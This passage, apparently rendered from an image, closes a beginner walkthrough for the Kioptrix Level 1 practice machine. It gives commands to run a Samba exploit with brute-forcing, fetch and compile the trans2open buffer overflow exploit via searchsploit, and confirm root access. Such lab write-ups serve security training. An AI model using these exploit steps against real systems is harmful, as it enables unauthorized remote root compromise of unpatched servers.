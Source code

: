 ```bash

Run the Exploit:

./Samba -b 0 <TARGET_IP>

-b: Bruteforce the exploit.

0: Indicates the target is a Linux system.


Verify Root Access:

After running the exploit, check if you’ve gained root access:

whoami

If successful, it will return root.


---

Step 6: Alternative Exploit

You can also try the Call Trans2Open Buffer Overflow exploit:

1. Download it:

searchsploit -m unix/remote/22469.c


2. Compile it:

gcc -o Exploit 22469.c


3. Run it:

./Exploit -t <TARGET_IP>

Result: Root access achieved again!




---

Conclusion

Congratulations! You’ve successfully:

1. Scanned the network and identified the target.


2. Enumerated and exploited a vulnerable Samba service.


3. Gained full control (root access) on the Kioptrix Level 1 machine.



This was a great start to understanding ethical hacking. Ready for more? Move on to Kioptrix Level 2!

```
